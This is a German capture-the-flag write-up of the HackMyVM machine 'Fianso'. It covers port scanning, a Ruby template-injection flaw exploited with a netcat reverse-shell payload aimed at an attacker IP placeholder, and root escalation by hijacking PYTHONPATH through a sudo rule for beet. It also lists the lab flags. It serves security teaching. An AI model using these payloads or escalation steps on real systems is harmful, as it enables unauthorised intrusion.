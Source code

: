 # Fianso - HackMyVM (Hard)

![Fianso.png](Fianso.png)

## Übersicht

*   **VM:** Fianso
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Fianso)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 10. April 2023
*   **Original-Writeup:** https://alientec1908.github.io/Fianso_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war die Kompromittierung der virtuellen Maschine "Fianso" auf der HackMyVM-Plattform. Die Enumeration ergab einen SSH-Dienst (Port 22) und einen WEBrick HTTP-Server (Port 8000), der mit Ruby lief. Die Webanwendung auf Port 8000 war anfällig für Server-Side Template Injection (SSTI) mit Ruby-Syntax (`#{...}`). Diese SSTI-Schwachstelle wurde ausgenutzt, um Remote Code Execution (RCE) zu erlangen und eine Reverse Shell als Benutzer `sofiane` zu erhalten. Die anschließende Privilege Escalation zu `root` erfolgte durch eine unsichere `sudo`-Regel. `sofiane` durfte `/usr/bin/beet` (ein Musik-Management-Tool) als `root` ohne Passwort ausführen, wobei die `SETENV`-Option aktiviert war. Dies ermöglichte `PYTHONPATH`-Hijacking: Ein bösartiges Python-Modul wurde in `/tmp` platziert und `beet` wurde mit `sudo PYTHONPATH=/tmp /usr/bin/beet` ausgeführt, was zur Ausführung des bösartigen Moduls als `root` und somit zu einer Root-Shell führte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `nikto`
*   Web Browser (implizit)
*   `nc (netcat)`
*   `python3`
*   `stty`
*   `cat`, `ls`, `cd`, `echo`, `grep`
*   `sudo`
*   `wget` (impliziert für Exploit-Dateien, falls nicht manuell erstellt)
*   `nano` (impliziert zum Erstellen von Skripten)
*   `beet` (Ziel-Binary)
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Fianso" gliederte sich in folgende Phasen:

1.  **Reconnaissance:**
    *   IP-Findung mittels `arp-scan` (192.168.2.126).
    *   Portscan mit `nmap` identifizierte Port 22 (SSH OpenSSH 8.4p1) und Port 8000 (WEBrick httpd 1.6.1, Ruby 2.7.4).

2.  **Web Exploitation (SSTI) & Initial Access (als `sofiane`):**
    *   `nikto` auf Port 8000 lieferte allgemeine Informationen.
    *   Manuelle Tests der Webanwendung auf Port 8000 zeigten eine Server-Side Template Injection (SSTI)-Schwachstelle. Eingaben wie `#{7*7}` wurden serverseitig zu `49` ausgewertet.
    *   Ein Ruby-SSTI-Payload (`#{system('nc -e /bin/bash <ANGREIFER-IP> <PORT>')}`) wurde verwendet, um eine Reverse Shell zu einer lauschenden Netcat-Instanz aufzubauen.
    *   Die Shell wurde als Benutzer `sofiane` erlangt und stabilisiert. Die User-Flag wurde gelesen.

3.  **Privilege Escalation (von `sofiane` zu `root` via `sudo beet` und `PYTHONPATH` Hijacking):**
    *   `sudo -l` für `sofiane` zeigte zwei Regeln:
        *   `(ALL : ALL) NOPASSWD: /bin/bash /opt/harness` (Passwort für `/opt/harness` unbekannt).
        *   `(ALL : ALL) SETENV: NOPASSWD: /usr/bin/beet` (kritisch).
    *   Die `SETENV`-Option erlaubte das Manipulieren von Umgebungsvariablen für den `sudo`-Aufruf von `beet`.
    *   Ein bösartiges Python-Skript (z.B. `re.py` oder ein korrekt benanntes Modul wie `beetsplug/web.py`) wurde in `/tmp` erstellt. Dieses Skript enthielt Code zum Starten einer Bash-Shell (z.B. `import os; os.system('/bin/bash')`).
    *   Der Befehl `sudo PYTHONPATH=/tmp /usr/bin/beet` wurde ausgeführt. Da `PYTHONPATH` auf `/tmp` gesetzt war, lud `beet` (als `root` laufend) das bösartige Modul aus `/tmp`, was zur Ausführung des Shell-Codes als `root` führte.
    *   Eine Root-Shell wurde erlangt. Die Root-Flag wurde gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Server-Side Template Injection (SSTI) in Ruby/WEBrick:** Die Webanwendung wertete Benutzereingaben unsicher in einem Ruby-Template (vermutlich ERB) aus. Dies ermöglichte die Ausführung von beliebigem Ruby-Code auf dem Server und führte zu Remote Code Execution (RCE).
*   **Unsichere `sudo`-Konfiguration (`SETENV` mit `PYTHONPATH` Hijacking):** Einer `sudo`-Regel erlaubte das Ausführen von `/usr/bin/beet` als `root` mit der Option `SETENV:`. Dies ermöglichte es dem Benutzer `sofiane`, die `PYTHONPATH`-Umgebungsvariable zu setzen, um Python dazu zu bringen, Module aus einem kontrollierten Verzeichnis (`/tmp`) zu laden, wenn `beet` (ein Python-basiertes Tool) gestartet wurde. Ein bösartiges Python-Modul in `/tmp` wurde so mit Root-Rechten ausgeführt.
*   **Vernachlässigung der `bash_history`:** Die Bash-History für `sofiane` war nach `/dev/null` verlinkt, was die Nachverfolgung erschwerte, aber für den Exploit nicht entscheidend war.

## Flags

*   **User Flag (`/home/sofiane/user.txt`):** `dd61014e5d119683f9fc798439cd3916`
*   **Root Flag (`/root/root.txt`):** `129cf8d39dad02722c0b95ddca3ad73d`

## Tags

`HackMyVM`, `Fianso`, `Hard`, `SSTI`, `RubySSTI`, `WEBrick`, `RCE`, `SudoBeet`, `PYTHONPATHHijacking`, `SetEnvSudo`, `Linux`, `Web`, `Privilege Escalation`
